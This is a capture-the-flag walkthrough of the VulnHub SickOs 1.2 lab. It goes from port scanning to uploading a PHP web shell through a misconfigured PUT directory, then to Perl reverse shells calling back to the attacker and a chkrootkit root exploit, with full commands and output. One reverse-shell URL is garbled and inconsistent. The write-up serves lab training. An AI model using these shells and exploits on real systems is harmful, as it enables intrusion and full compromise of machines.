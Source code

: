 # Port Scan

Perform a Ping Sweep
```
nmap -sn 192.168.114.1-254
```
```
Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-01 23:57 AEDT
MAC Address: 00:50:56:FE:6D:CA (VMware)
Nmap scan report for 192.168.114.132
Host is up (-0.10s latency).
MAC Address: 00:50:56:FF:87:FA (VMware)
Nmap scan report for 192.168.114.131
Host is up.
Nmap done: 254 IP addresses (5 hosts up) scanned in 2.35 seconds
```
192.168.114.131 is my KALI machine
192.168.114.132 is target machine

# Enumeration
### Port Enumeration
```
nmap -sV 192.168.114.132
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    lighttpd 1.4.28
```
### HTTP Enumeration
```
nikto -h 192.168.114.132
```
```
+ Server: lighttpd/1.4.28
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ All CGI directories 'found', use '-C none' to test none
+ OSVDB-3268: /test/: Directory indexing found.
+ 26188 requests: 0 error(s) and 4 item(s) reported on remote host
```
Directory indexing found , but it is empty, so useless information.
```
dirb http://192.168.114.132
```
```
---- Scanning URL: http://192.168.114.132/ ----
+ http://192.168.114.132/index.php (CODE:200|SIZE:163)                         
==> DIRECTORY: http://192.168.114.132/test/ 
```
Also only found one directory.

### Searching for exploits
```
searchsploit -e lighttpd
```
Does not return with any major exploits or vulnerabilities.

Low Hanging Fruit : http://192.168.114.132/test/ 

Using cURL to see If we can upload any files onto /test/
```
echo "test" > test.txt
curl -T 'test.txt' 'http://192.168.114.132/test/test.txt'
```
```
<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
         "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
 <head>
  <title>417 - Expectation Failed</title>
 </head>
 <body>
  <h1>417 - Expectation Failed</h1>
 </body>
</html>
```
We are returned with Expectation Failed, which is unique. A bit of googling
https://stackoverflow.com/questions/9120760/curl-simple-file-upload-417-expectation-failed

Says we need to include --http1.0
### Vulnerability - Misconfigured Upload

```
curl -T 'test.txt' 'http://192.168.114.132/test/test.txt' --http1.0
```
Successfully Uploaded a file. 


# Exploit
Now we have full reigns on upload , you can upload a reverse php shell, backdoor etc. In this case we'll upload a basic php system call.
```
echo 'system($_GET['cmd']);' | base64      // Not neccessary to encode it to base64
echo "<?php eval(base64_decode('c3lzdGVtKCRfR0VUW2NtZF0pOwo=')) ?>" > evil.php
```
Upload and Accessing the exploit: in URL
http://192.168.114.132/test/evil.php?cmd="XXXXANYCOMMANDHERE"

Using a basic perl reverse shell (Generated from msfvenom)  // port 1234 , will not return anything. Port 443 works!
```
http://192.168.114.132/test/evil.php?cmd=192.168.114.132/test/test.php?cmd=/usr/bin/perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.21.31:1234");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
```
OR just use one of http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```
nc -lvp 443
listening on [any] 443 ...
192.168.114.132: inverse host lookup failed: Unknown host
connect to [192.168.114.131] from (UNKNOWN) [192.168.114.132] 59858
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# Local Privilege Escalation

Running a Linux Priv Checker ( Automated Script )
Manually checking the crontabs, we see a few programs that are scheduled to run
```
$ ls /etc/cron.daily/
ls /etc/cron.daily/
apt	  bsdmainutils	dpkg	  logrotate  mlocate  popularity-contest
aptitude  chkrootkit	lighttpd  man-db     passwd   standard
```
Check each of the versions of the following to see if they have a vulnerability
```
 chkrootkit 0.49-4ubuntu1.1  detector
```
Found an exploit. 

# Vulnerability Exploited - Out of Date CHKROOTKIT
https://www.exploit-db.com/exploits/33899/

"Result: The file /tmp/update will be executed as root, thus effectively
rooting your box, if malicious content is placed inside the file."

##### Steps 1. Create a bash, named "update"
```
#!/bin/sh

echo "`/usr/bin/perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.114.131:443");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'`"

#end
```
Using the same shell, we can get a root shell.

#### Step 2. Upload to target machine, and place in /tmp/

#### Wait.
```
Command shell session 5 opened (192.168.114.131:443 -> 192.168.114.132:37026) at 2018-03-02 18:16:55 +1100
```

```
id  
uid=0(root) gid=0(root) groups=0(root)
pwd
/root
cat 7d03aaa2bf93d80040f3f22ec6ad9d5a.txt
WoW! If you are viewing this, You have "Sucessfully!!" completed SickOs1.2, the challenge is more focused on elimination of tool in real scenarios where tools can be blocked during an assesment and thereby fooling tester(s), gathering more information about the target using different methods, though while developing many of the tools were limited/completely blocked, to get a feel of Old School and testing it manually.

Thanks for giving this try.

@vulnhub: Thanks for hosting this UP!.
```





